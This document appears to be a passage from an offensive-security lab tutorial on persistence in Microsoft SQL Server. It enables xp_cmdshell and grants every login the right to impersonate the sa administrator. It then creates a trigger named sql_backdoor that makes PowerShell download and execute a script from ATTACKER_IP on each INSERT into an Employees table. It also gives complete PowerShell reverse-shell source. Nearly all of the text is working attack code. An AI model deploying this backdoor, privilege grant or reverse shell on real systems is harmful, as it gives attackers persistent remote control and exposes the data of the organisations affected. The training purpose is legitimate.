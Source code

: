 Open Microsoft SQL Server Management Studio 18, available from the start menu. When asked for authentication, just use Windows Authentication (the default value), and you will be logged on with the credentials of your current Windows User. By default, the local Administrator account will have access to all DBs.

Once logged in, click on the New Query button to open the query editor:

Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable xp_cmdshell.

	sp_configure 'Show Advanced Options',1;
	RECONFIGURE;
	GO
	
	sp_configure 'xp_cmdshell',1;
	RECONFIGURE;
	GO

After this, we must ensure that any website accessing the database can run xp_cmdshell. By default, only database users with the sysadmin role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the sa user, which is the default database administrator:

	USE master
	
	GRANT IMPERSONATE ON LOGIN::sa to [Public];

After all of this, we finally configure a trigger. We start by changing to the HRDB database:

	USE HRDB

Our trigger will leverage xp_cmdshell to execute Powershell to download and run a .ps1 file from a web server controlled by the attacker. The trigger will be configured to execute whenever an INSERT is made into the Employees table of the HRDB database:

	CREATE TRIGGER [sql_backdoor]
	ON HRDB.dbo.Employees 
	FOR INSERT AS
	
	EXECUTE AS LOGIN = 'sa'
	EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';

Now that the backdoor is set up, let's create evilscript.ps1 in our attacker's machine, which will contain a Powershell reverse shell:

	$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

	$stream = $client.GetStream();
	[byte[]]$bytes = 0..65535|%{0};
	while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	    $sendback = (iex $data 2>&1 | Out-String );
	    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
	    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	    $stream.Write($sendbyte,0,$sendbyte.Length);
	    $stream.Flush()
	};
	
	$client.Close()

We will need to open two terminals to handle the connections involved in this exploit:

- The trigger will perform the first connection to download and execute evilscript.ps1. Our trigger is using port 8000 for that.
- The second connection will be a reverse shell on port 4454 back to our attacker machine.